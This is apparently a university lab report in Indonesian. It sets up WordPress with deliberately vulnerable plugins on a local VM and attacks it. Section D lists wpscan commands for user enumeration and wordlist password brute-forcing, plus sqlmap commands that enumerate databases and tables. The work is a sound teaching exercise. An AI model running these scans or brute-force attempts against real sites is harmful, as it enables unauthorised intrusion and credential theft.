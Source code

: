 # TUGAS 2 PKSJ Uji Penetrasi

## A. Pendahuluan

#### Penjelasan Tugas

* Install Wordpress pada sebuah virtual OS
* Install plugin yang vulnerable terhadap SQL injection: Video Player 1.5.16, LeagueManager 3.9.11, dll.
* Install/gunakan tool untuk uji SQL injection pada Wordpress: WPScan, sqlmap, dll.


**Anggota Kelompok**

| NRP         | Nama                 |
|-------------|----------------------|
| 5113100006  | Aldhiaz Fathra Daiva |
| 5113100119  | Rezky Budi Prasetyo  |
| 5113100174  | Armirara Refa        |


## B. Dasar Teori

**1. OS yang digunakan**

* **Kali Linux** adalah salah satu distribusi Linux tingkat lanjut untuk uji penetrasi dan audit keamanan, pembangunan kembali BackTrack Linux secara sempurna,  mengikuti sepenuhnya kepada standar pengembangan Debian. ([sumber](http://id.docs.kali.org/introduction-id/apa-itu-kali-linux))

* **Ubuntu Server** adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS. ([sumber](http://www.candra.web.id/mengenal-ubuntu-server/))


**2. WordPress dan plugin yang diinstall**

* **WordPress** adalah *content management system* (CMS) *open source* berbasis PHP dan MySQL yang diinstall pada web server, yaitu sebagai bagian dari Internet hosting service (WordPress.com) atau sebagai host nya itu sendiri (WordPress.org). Pada WordPress.org, komputer lokal dikonfigurasikan untuk berperan sebagai web server hosting WordPress untuk tujuan uji coba atau belajar. ([sumber](https://en.m.wikipedia.org/wiki/WordPress))

* **Video Player 1.5.16** adalah plugin video pada WordPress yang memungkinkan pengguna untuk menambahkan video pada websitenya. ([sumber](https://wordpress.org/plugins/player/))

* **LeagueManager 3.9.1.1** adalah plugin WordPress untuk mengatur dan menampilkan liga olahraga pada halaman blog. ([sumber](https://wordpress.org/plugins/leaguemanager/))

* **CP Reservation Calendar 1.1.6** adalah plugin pemesanan tanggal kalender yang memungkinkan memilih tanggal - yaitu untuk *check-in* dan *check-out* - untuk reservasi. ([sumber](https://wordpress.org/plugins/cp-reservation-calendar/))


**3. Tools yang digunakan**

* **WPScan** adalah *tools* yang ditulis dengan ruby untuk meninjau celah keamanan pada WordPress, mampu mendeteksi celah keamanan yang umum juga mendaftar semua plugin yang digunakan pada WordPress. ([sumber](http://kali4hackers.blogspot.com/2013/05/wpscan-in-kali-linux-wpscan-is.html?m=1))

* **Sqlmap** adalah *tools open source* untuk uji coba penetrasi yang mengotomasi proses mendeteksi dan mengeksploitasi kelemahan pada SQL injection dan mengambil alih database server. ([sumber](http://www.kalitutorials.net/2014/03/hacking-website-with-sqlmap-in-kali.html?m=1))


## C. Penjelasan Instalasi
**1. Install Apache**
pertama kali kami melakukan penginstalan apache pada ubuntu server dengan command dibawah
```
$ sudo apt-get install apache2 apache2-utils 
```
Selanjutnya untuk menjalan kan apache menggunakan command berikut ini
```
$ sudo systemctl enable apache2
$ sudo systemctl start apache2
```
Selanjut buka pada browser client(kali linux) dan masukan ip ubuntu server untuk melihat apache yang sudah berjalan
![gambar1](Screenshot/Apache.png)

**2. Install Mysql**
Selanjutnya kami melakukan penginstalan mysql dengan command berikut ini
```
$ sudo apt-get install mysql-client mysql-server
```
Selanjutnya menjalan commend ini
```
$ sudo mysql_secure_installation
```

**3. Install PHP**
Selanjutnya untuk menginstall PHP menggunakan comamnd berikut
```
$ sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd
```
selanjutnya untuk mengetest apakah PHP sudah berjalan dengan command berikut
```
$ sudo vi /var/www/html/info.php
```
Masukan command pada file yang dibuka lewat vi
```
<?php
phpinfo();
?>
```
Setelah itu buka pada client browser dan masukan link ini http://server_address/info.php
maka akan muncul seperti gambah dibawah
![gambar1](Screenshot/PHP.png)
**4. Install Wordpress**
Setelah step sebelumnya di intall semua terlebih dahulu sekarang kami akan melakukan penginstall wordpress pertama kami mendownload dan mengextract terlebih dahulu
```
$ wget -c http://wordpress.org/latest.tar.gz
$ tar -xzvf latest.tar.gz
```
kemudian file kami pindahkan
```
$ sudo rsync -av wordpress/* /var/www/html/
```
kemudian melakukan setting permission
```
$ sudo chown -R www-data:www-data /var/www/html/
$ sudo chmod -R 755 /var/www/html/
```
**5. Membuat Wordpress database**
Masukan command ini
```
$ mysql -u root -p
```
kemudian masukan command ini untuk membuat database
```
mysql> CREATE DATABASE wp_pksj;
mysql> GRANT ALL PRIVILEGES ON wp_myblog.* TO 'your_username_here'@'localhost' IDENTIFIED BY 'your_chosen_password_here';
mysql> FLUSH PRIVILEGES;
mysql> EXIT;
```
kemudian menuju ke /var/www/html/ untuk me-rename file
```
$ sudo mv wp-config-sample.php wp-config.php
```
kemudian restart untuk menjalankan wordpress
```
$ sudo systemctl restart apache2.service
$ sudo systemctl restart mysql.service
```
hasil wordpress dibuka pada client
![gambar1](Screenshot/1.jpg)
![gambar1](Screenshot/2.jpg)
![gambar1](Screenshot/3.jpg)
![gambar1](Screenshot/4.jpg)
![gambar1](Screenshot/5.jpg)
![gambar1](Screenshot/6.jpg)

## D. Uji Penetrasi
**1. Uji penetrasi dengan wpscan**
Untuk uji penestasi pertama kita melakukan menggunakan wp scan untuk mengecek plugin apa saja yang digunakan pada ubuntuk server uji penetrasi dilakukan pada kali linux
```
wpscan --url localhost/wordpress
```
![gambar1](Screenshot/Plugin.jpg)

Selanjutnya mengecek username menggunakan wpscan dengan command dibawah
```
wpscan --url localhost/wordpress --enumerate u
```
![gambar1](Screenshot/User.jpg)
Selanjutnya mengecek Password menggunakan wpscan dengan command dibawah
```
wpscan --url localhost/wordpress --wordlist ~/passlist.txt --thread 10
```
![gambar1](Screenshot/Pass.jpg)

**2. Uji penetrasi dengan sqlmap**
Selanjutnya kami mencoba uji penetrasi menggunakan sqlmap pada plugin leaguemanager
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql
```
dari command ini kita mendapatkan OS, Webserver dan versi dbms yang diguankan
![gambar1](Screenshot/uji1.1.jpg)
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql --dbs
```
dari command ini kita mendapat database yang terdapat pada target penetrasi
![gambar1](Screenshot/uji1.2.jpg)
```
sqlmap --url "http://192.168.159.130/wp" --level 5 --risk 3 --dbms mysql -D wordpress --tables
```
dari command ini kita mendapatkan tabel apa saja yang terdapat pada wordpress
![gambar1](Screenshot/uji1.3.jpg)

## E. Kesimpulan dan Saran
